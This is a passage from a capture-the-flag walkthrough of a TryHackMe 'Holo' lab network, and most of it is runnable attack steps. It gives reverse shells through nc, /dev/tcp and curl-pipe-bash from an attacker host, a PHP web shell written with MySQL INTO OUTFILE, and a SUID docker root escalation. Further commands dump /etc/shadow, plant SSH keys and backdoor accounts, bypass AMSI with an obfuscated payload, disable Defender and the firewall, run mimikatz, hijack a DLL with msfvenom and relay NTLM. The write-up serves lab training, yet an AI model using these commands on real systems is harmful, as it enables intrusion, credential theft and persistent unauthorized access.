

Let's modofied our payload to get reverse shell to ` http://admin.holo.live/dashboard.php?cmd=nc%20-c%20bash%2010.50.103.20%2018888 `

We are using curl to perform this exploit to get our reverse shell

```bash
curl http://admin.holo.live/dashboard.php?cmd=nc%20-c%20bash%2010.50.103.20%2018888
```

Reverse shell called back from admin.holo.live:


Enumeration directories on target system:



We found db_connect.php:


We enumerated through ` /var/www ` and found ` user.txt `:




Next we enumerated through ` / ` directory and located .dockerenv, this file exist and let us know current system is a docker container.

```bash
find / -type f -name "*.dockerenv" -ls 2>/dev/null
```



Since this is a docker container, we know that docker usually create docker network as internal network to connect diffirent containers, we decided to check out the network information from current docker container by using ` ifconfig `.



From the netwoork information shown, we currently on ` 192.168.100.0/24 ` network which is inaccessible from Holo corporate network (10.200.107.0/24)

We then check on  the routing information by using ` route -nv `



From the routing, we know the gateway is ` 192.168.100.1 `

Let's perform a quick port scanning on ` 192.168.100.1 ` leveraging the netcat binary available on current docker container.

```bash
for port in {1..20000}; do timeout 2 nc -znv 192.168.100.1 $port 2>&1 | grep open ; done
```


From the port scanning result, we know that there is mysql service running on ` 192.168.100.1 `, we may use the credential found previously (db_connect.php) to login into mysql server which reside on ` 192.168.100.1 `

We can confirmed this by checking if mysql client connection is running on current docker container by using ` ps -elf | grep mysql `


Let's login to mysql server on ` 192.168.100.1 ` by ` mysql -u admin -p -h 192.168.100.1 `



We then perform enumeration and information gathering from mysql server:

- First, we check on the version of mysql server --- ` SHOW VARIABLES LIKE “%version%”; `

    

- Then we get the information of databases available --- ` show databases; `

    

- There is one database is not the default database created by mysql --- ` DashboardDB `, we have selected this database to enumerate further

    

- We use ` show tables; ` to understand what are the tables available on this ` DashboardDB ` database and we found a user table, we have dump the enitre user table out.

    

- We also dumping the user table from mysql database, as we know this is the table store the credentials of mysql by ` SELECT User FROM mysql.user; ` and ` ELECT host,User,authentication_string FROM mysql.user; `

    

    

As we have the access to mysql server on ` 192.168.100.1 `, we can exploit the mysql server to escape current docker container and gain access to the host system.

Here is the reference --- [Generate Backdoor via SQL Injection](http://scx020c07c.blogspot.com/2012/09/generate-backdoor-via-sql-injection.html)

Below is the actions we perform to escape current docker container and gain access to the host system.

- Create a table named "hacker" under the active database, in this case the active database is ` DashboardDB `, though we can also create our own database, however to ensure the access to the host system and being low-profile we going to use current active database.

- Then we use "INSERT" statement to insert our php payload  --- ` <?php $cmd=$_GET[“cmd”];system($cmd);?> ` into the table just created.

- Next, we use "SELECT" statement with "outfile" feature to dump the php payload to a file --- ` <?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php `

- Last, we use "curl" command to get the response of our php to ensure our php payload is working properly --- ` curl 192.168.100.1:8080/shell.php?cmd=whoami `.

Here is the full payload we used:

```
CREATE TABLE hacker ( hacker varchar(255) );

INSERT INTO hacker (hacker) VALUES (‘<?php $cmd=$_GET[“cmd”];system($cmd);?>’);

SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';

curl 192.168.100.1:8080/shell.php?cmd=whoami
```



We have the php working, we can craft and get reverse shell callback from host system to our attacker machine.

First, we crafted a reverse shell bash script named "rev.sh" on our local attacker machine, you may find [this reference for reverse shell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.50.103.20/23333 0>&1
```





Next, we spin up python web server allow target host system to get our reverse shell script --- ` pythom -m http.server 80 `


In the meantime, we aalso aspin up netcat listener to catch the callback from target host system --- ` sudo nc -lnvvp 23333 `


Now, back to our docker container system, using curl to allow 192.168.100.1 get our reverse shell script and execute it by bash.

Below is the payload we used.

```bash
# This is the payload
curl 'http://192.168.100.1:8080/shell.php?cmd=curl http://10.50.103.20:80/rev.sh|bash &'


# This is the payload with URL Encode to eliminate the issue of URl with space
curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.103.20%3A80%2Frev.sh%7Cbash%20%26'
```



Response of python web server on our attacker machines:


Response of netcat listener on our attacker machines:


Right away, we search for binaries with setuid bit using command below:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Result of setuid bit binaries:



We notice unsual ` docker ` binary with setuid, searching online with the reference <https://gtfobins.github.io/gtfobins/docker/#suid> showing we are able to exploit such ` docker ` binary with setuid bit to escalate privilege to root.


The payload we used is ` docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh -p `

Privilege Escalation to root:


We found user.txt at /var/www directory:


Since we are root, we found root.txt at /root:


Next, we going to enumerate system.

First, dumping /etc/passwd and /etc/shadow as we know passwd and shadow are useful for us to gain access to the system as well as cracking the password of valid user:





From the /etc/passwd, we know that - there is one non-system user --- ` linux-admin `

In order for us to gain persistent access to the system, we have generated sshkey on attacker machine and copy to target system.

Payload used to generated sshkey and insert to root and linux-admin user ` authorized_keys `

```bash
ssh-keygen -t rsa -f fake_id_rsa -P "" && cat fake_id_rsa.pub
```

sshkey genreated:



Insert attacker sshkey to root user account on target system:



Insert attacker sshkey to linux-admin user account on target system - including create ` .ssh ` directory as linux-admin does not have such directory that contain sshkey:




We also create additional user just in case and as a secondary source to gain access back to the system.

Payload used to generate user and change password as below:

```bash
# Create a user called "hacker"
useradd -m hacker

# Change password as "hacker" for the "hacker" user
echo hacker:hacker | chpasswd
```


Back to our attacker machine, as we have the shadow file; we can try to crack the password especially for the user "linux-admin"

The hashcat command used to crack "linux-admin" password as below (note that we are using windows system for hashcat here):

```
hashcat.exe -m 1800 test2.hccapx ..\password-list\simple-rockyou.lst -o ..\cracked.txt -O
```



The "test2.hccapx" is the hash for "linux-admin" user password from shadow file:


Result of hashcat:


As of now, we have completely own system ` 10.200.107.33 `

However, as from our first nmap result there is no other system available for us. Hence we decided to ssh back to ` 10.200.107.33 ` and we notice there is ` nmap ` binary available.

We have utilized nmap from ` 10.200.107.33 ` to perform quick scan for host alive by using command below:

```bash
nmap -nvv -sn 10.200.107.0/24 | grep -B 1 up
```

Result of network scan for host alive:


From the nmap network scan result, we know that - there are several system on the network:

- 10.200.107.31
- 10.200.107.32
- 10.200.107.35
- 10.200.107.30

Next we perform in-depth scan for each host.

Scan for 10.200.107.30 using command below:

```bash
nmap -nvv -Pn -T4 -F 10.200.107.30
```

Nmap result for 10.200.107.30


Scan for 10.200.107.31 using command below:

```bash
nmap -nvv -Pn -T4 -F 10.200.107.31
```

Nmap result for 10.200.107.31



Scan for 10.200.107.32 using command below:

```bash
nmap -nvv -Pn -T4 -F 10.200.107.32
```

Nmap result for 10.200.107.32



Scan for 10.200.107.35 using command below:

```bash
nmap -nvv -Pn -T4 -F 10.200.107.35
```

Nmap result for 10.200.107.35



Do take a note on all the nmap result, it showing all other system are on Windows.

We have confirmed that on our attacker machine, we are unable access to any host other than ` 10.200.107.33 `

Ping result for 10.200.107.31 on our attacker machine.



Result of port 80 - http for 10.200.107.31 on our attacker machine



With all the information we gathered, we can conclude that Holo designed their corporate network with segmentation.

We will need to forward our attacker traffic to Holo corporate network levaraging the host system we gained access which is ` 10.200.107.33 `

We decided to use ` sshuttle ` - a proxy tools utilise ssh to forward our attacker traffic via ssh on ` 10.200.107.33 ` to Holo corporate network ` 10.200.107.0/24 `

**This is crucial for us to access other system from now on.**

The command we used for ` sshuttle ` as below (note that command is executed on our attacker machine):

```bash
sudo sshuttle -D -N -r linux-admin:linuxrulez@10.200.107.33 -x 10.200.107.33 10.200.107.0/24 -vvv
```

sshuttle command:



Checking sshuttle process is running by issue command ` sudo ps -elf | grep sshu ` :



After ` sshuttle ` is running, we are able to access port 80 - http for ` 10.200.107.31 ` on our attacker machine.

Main page for port 80 - http - ` 10.200.107.31 `


Source of main page for ` 10.200.107.31 `


As ` 10.200.107.31 ` showing login page, we decide try to log into it using the credentials found previously (that we dump from the database called "DashboardDB" that is in mysql server on 192.168.100.1).

Do keep in mind, there is "Forgot Password" page that we have not explore for now.

Login using admin user, however it only show blank page:


Login using gurag user, below is the response page:



From the response of login page, we know that ` gurag ` is a valid user.

Let's jump back to "Forgot Password" page.


Source of forgot password page:


Request header of forgot password page:


Now we try to reset "gurag" password as it is a valid user to allow us login.



From the request header, we can see that the password reset (initially from reset_form.php) was sent to "password_reset.php" and require a "username" and "user_token".

Here is the response cookies from the reset password:


From the response cookies, we are able to retrieve the "user_token" which is a weak password reset mechanism fall under OWASP - Broken Authentication.

With the "user_token" visible, we now able to craft a valid password reset link for our taregted user "gurag"

The payload we used as below:

```bash
curl http://10.200.107.31/password_reset.php?user=gurag&user_token=input_user_token_here


# Example
curl 'http://10.200.107.31/password_reset.php?user=gurag&user_token=68d0f48756dc369c1f900efac880c7fc6935badc03adae50d207e8595f540439721b1af96d6d7efb87d56efa398ebd491859'
```

Password reset link for "gurag":



And we visit the password reset page again for user "gurag", below is the response that allow us to input new password for "gurag"

reset.php with request header:



reset.php with request cookies:


reset.php with response header:



reset.php with response cookies:



Once we input our new password for the user "gurag" and we get another flag.



Now we are able to login to <http://10.200.107.31>

Here is the home page that allow us to upload image after login.





Source of home page after login to ` 10.200.107.31 `



Here is the upload image page



Source of upload image page



From the source of upload image page, we can see that it is using a javascirpt named "upload.js" to process the upload.

We have check on the "upload.js" javascript, below is what we found interesting; basically it allow us to upload anything to ` 10.200.107.31 `



With unrestricted file upload, we can craft a reverse shell php and upload to ` 10.200.107.31 ` that will get us access to the system.

You may refer to [this link for PHP Reverse Shell](https://github.com/ivan-sincek/php-reverse-shell)

Download php reverse shell code and modify the php reverse shell – providing our attacker machine ip and port to be binded.



Upload to ` 10.200.107.31 ` via upload page and it show successful uploaded



However, we have no idea where the file is stored in the system.

For this we fire up gobuster to check what is the directory available.

The gobuster command we used as below:

```bash
sudo gobuster -t 35 –delay 100ms dir -e -u http://10.200.107.31 -o TryHackMe-gobuster-dir-10.200.107.31 -w /usr/share/dirb/wordlists/common.txt
```

And here what we found, there is a directory called "images".



We access to the directory found and the reverse shell php is inside.



Next we spin up netcat listener on our attacker machine and using ` curl ` command to activate the php reverse shell we have uploaded to ` 10.200.107.31 `

Here is the command we used

```bash
curl http://10.200.107.31/images/rev.php
```

Curl to activate reverse shell php



Here is the call-back received on our attacker machine


Right awar, we know this is a Windows system, and checking basic information as below:


Since this is a reverse shell which is unstable and we will need to create persistent access to the system, below is what we have done in order to gain persistent access to the system.

- create a user on the system
- add the user created to local administrator group
- turn off windows firewall for all profile
- add "Everyone" into "Remote Desktop Users", this will allow us to remote desktop into the system.

Below is the payload we used for above mentioned tasks.

```dos
net user hacker hackP@ssw0rd /add
net localgroup administrators hacker /add
netsh advfirewall set allprofiles state off
net localgroup "Remote Desktop Users" Everyone /Add
```

Here is the screenshot for those command executed successfully.


As we are working with Windows system, we also using powershell command below to bypass Windows AMSI, this will allow us to run command or execute tools without trigger Windows Anti-Malware system.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

Set-MpPreference -DisableRealtimeMonitoring $true
```

Next we enumerate through the system and found the ` root.txt ` on ` C:\Users\Administrator\Desktop `

root.txt found on ` 10.200.107.31 `


As we working on Windows system, we have uploaded most popular tools such as "mimikatz" to dump ` 10.200.107.31 ` system hashes using powershell command below:

```powershell
Invoke-WebRequest "http://10.50.103.20/mimikatz.exe" -outfile "mimikatz.exe"
```

Next, we run command below to dump all possible credential information and hashes  such as NTLM via mimikatz.

```dos
.\mimikatz "log host-31.log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit
```

And right away from mimikatz result, we found clear text credential for one of the user (watamet) on the system


With the credentials found, let's move on to another system.

We have try the credentials found on different system, only ` 10.200.107.35 ` is accessible.


Right off the bat, we found user.txt on desktop.

user.txt on 10.200.107.35


As we are using "watamet" user logging in ` 10.200.107.35 ` and it does not have local administrator right on the system, hence unable to execute command require admin privilege.

We decided to use applocker bypass checker (that was downloaded on our attacker machine) to check if the system has enable applocker which most Windows system does and get the folder is accessible without restricted.

The applocker bypass checker can be download [here](https://github.com/HackLikeAPornstar/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1)

We execute powershell command below to download the applocker bypass checker from our attacker machine:

```powershell
Invoke-WebRequest "http://10.50.103.20/applocker-bypas-checker.ps1.txt" -outfile "applocker-bypas-checker.ps1"
```

To be safe, we have download the applocker bypass checker in ` C:\Windows\Tasks `, this is the folder used by Windows Scheduled Task.

Next, we run the following powershell command to start the applocker bypass checker:

```powershell
.\ applocker-bypas-checker.ps1
```

Below is the result of applocker bypass checker:


From here, we can confirmed that ` C:\Windows\Tasks ` is safe for us to execute command and tool.

Now, we start to enumerate the system and we found a very interesting application (kavremover.exe) on ` C:\Users\watamet\Applications\ `, which is unusual path for program.


Immediate we check only is there any vulnerability or exploit for this application, and [here](https://medium.com/techzap/dll-hijacking-part-1-basics-b6dfb8260cf1) is what we found.

It is exploitable with DLL hijacking.

First we create a malicious DLL that embeded reverse shell meterpreter module form metasploit for the vulnerable application using ` msfvenom ` on out attcker machine as per below command.

```bash
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.103.20 LPORT=16666 -f dll -o kavremoverENU.dll
```

Then we use the same ` Invoke-WebRequest ` powershell command to download the malicious DLL from our attacker machine to target syetm under ` C:\Windows\Tasks `

In order for the exploit to work, we have to copy the vulnerable application from original folder to ` C:\Windows\Tasks `, as the DLL hijacking work when the vunerable application start; it will search for DLL in the same folder, this is how we exploit it.

Next, we setup the metasploit multi-handler module on our attacker machine as below:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.50.103.20
set LPORT 16666
run -j
```

Next, we run the vulnerable application, and we got a shell call-back to meterpreter as shown below:


As we using meterpreter, we need to inject meterpreter process into the system in order to have better and stablize shell access, below is what we done to get a stablize shell.

In meterpreter, we need to execute ` getsystem ` command to temporary escalate our privilege to ` NT-AUTHORITY\SYSTEM `

With the ` NT-AUTHORITY\SYSTEM `, we can now run admin privilege require command.

In meterpreter, use ` ps ` command to get the list of process running on ` 10.200.107.35 `


Then, we execute the following command to inject meterpreter process into the system:


Once done, we can execute ` shell ` command to have command line access on ` 10.200.107.35 `

And we perform the same technique to gain persistent access to the system that was done on ` 10.200.107.31 `

- create user and add user to local administrator group
- add "watamet" to local administrator group
- turn off windows firewall for all profile
- add "Everyone" into "Remote Desktop Users"
- bypass Windows AMSI
- upload mimikatz and dump all the available hashes such as NTLM (alternativly we can execute ` run post/windows/gather/hashdump ` in meterpreter to dump hashes as well)

Then we start enumerate the system and found root.txt on ` C:\Users\Administrator\Desktop `


Beside, we execute command below to check if the system joined domain or any domain user:

```dos
net user /domain
```

And the result show current system ` 10.200.107.35 ` is joined `HOLOLIVE` domain and the domain server is ` DC-SRV01 ` (alternatively, the mimikatz result show the same)

We run the following command ` nslookup DC-SRV01 `, it resolved to ` 10.200.107.30 `

We decided to attack on ` DC-SRV01 ` domain server - ` 10.200.107.30 ` using NTLM relay attack, for this we use the popular [Impacket - ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) which is downloaded on our attacker machine and run it with below command:

```bash
sudo python3 ntlmrelayx.py -t smb://10.200.107.30 -smb2support -socks
```

In order for ntlm relay attack to function, we have to perform below action on the system that we have access to which is ` 10.200.107.35 ` - that is also accessible to ` 10.200.107.30 `:

- Execute command below to stop the SMB services on ` 10.200.107.35 `, that allow us to intercept and relay the smb session from our attacker machine.

    ```dos
    sc stop netlogon
    sc stop lanmanserver
    sc config lanmanserver start= disabled
    sc stop lanmanworkstation
    sc config lanmanworkstation start= disabled
    ```

